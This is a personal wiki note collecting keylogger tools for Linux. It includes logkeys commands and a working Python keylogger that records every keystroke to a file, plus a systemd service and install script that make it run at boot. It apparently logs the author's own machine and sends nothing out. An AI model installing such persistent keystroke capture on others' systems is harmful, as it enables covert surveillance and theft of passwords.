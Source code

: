 ```yaml
---
share: true
uuid: 110c0e33-2ef8-470a-b094-c707827f7720
title: research
---
```

---
id: 4zI7TCRVN4AqHOJlschIv
title: research
desc: ''
updated: 1628449250371
created: 1628449250371
---
# Keylogger Software
*   List of keyloggers I was able to get to work
    *   [Bad display name "" when running via ssh · Issue #6 · moses-palmer/pynput](https://github.com/moses-palmer/pynput/issues/6)
    *   [How to Make a Keylogger in Python - Python Code](https://www.thepythoncode.com/article/write-a-keylogger-python)
    *   [keylogger · PyPI](https://pypi.org/project/keylogger/)
    *   [raspbian - How to start a python script at boot - Raspberry Pi Stack Exchange](https://raspberrypi.stackexchange.com/questions/108694/how-to-start-a-python-script-at-boot)
*   Links to Keyloggers I could not get to work
    *   [gsingh93/keylogger: A keylogger written in Rust](https://github.com/gsingh93/keylogger)
    *   [GiacomoLaw/Keylogger: A simple keylogger for Windows, Linux and Mac](https://github.com/GiacomoLaw/Keylogger)
    *   [deadblackclover/keylogger: Register various user actions - keystrokes on the computer keyboard, movements and mouse keystrokes](https://github.com/deadblackclover/keylogger)
*   The Key logger I want to use is called LogKeys but I could not get the correct key mapping
    *   [How to Monitor Keyboard Keystrokes Using 'LogKeys' in Linux](https://www.tecmint.com/how-to-monitor-keyboard-keystrokes-using-logkeys-in-linux/)
        *   Troubleshoot → [Linux keyboard event capturing /dev/inputX - Stack Overflow](https://stackoverflow.com/questions/2775461/linux-keyboard-event-capturing-dev-inputx)

    /proc/bus/input/devices
    
    ls -l /dev/input/by-id
    
    sudo logkeys -d event3 --export-keymap /home/dentropy/Documents/Software/keylogger/keymap.txt
    
    sudo logkeys -d event3 --keymap /home/dentropy/Documents/Software/keylogger/keymap.txt  -s
    
    sudo logkeys -d event3 --us-keymap -s

    # keylogger.py
    import keyboard # for keylogs
    from datetime import datetime
    
    # https://www.thepythoncode.com/article/write-a-keylogger-python
    # https://github.com/boppreh/keyboard#keyboard.hook
    
    class Keylogger:
        def callback_pressed(self, event):
            # print(event.name)
            # print(event.event_type)
            with open(f"./test-keylog.txt", "a") as f:
                event_string = str(datetime.now().isoformat()) + " " + event.event_type + " "+  event.name
                print(event_string, file=f)
        def start(self):
            keyboard.hook(callback=self.callback_pressed)
            keyboard.wait()
    if __name__ == "__main__":
        keylogger = Keylogger()
        keylogger.start()
    

    # install.sh
    #!/bin/bash
    sudo cp keylogger.service /etc/systemd/system/keylogger.service
    sudo systemctl enable keylogger.service
    sudo systemctl start keylogger.service

    # keylogger.service
    [Unit]
    Description=Keylogger Service
    After=multi-user.target
    
    [Service]
    ExecStart=/usr/bin/python3 /home/dentropy/Software/keylogger/keylogger.py /home/dentropy/Software/keylogger/keylogger.out
    
    [Install]
    WantedBy=multi-user.target
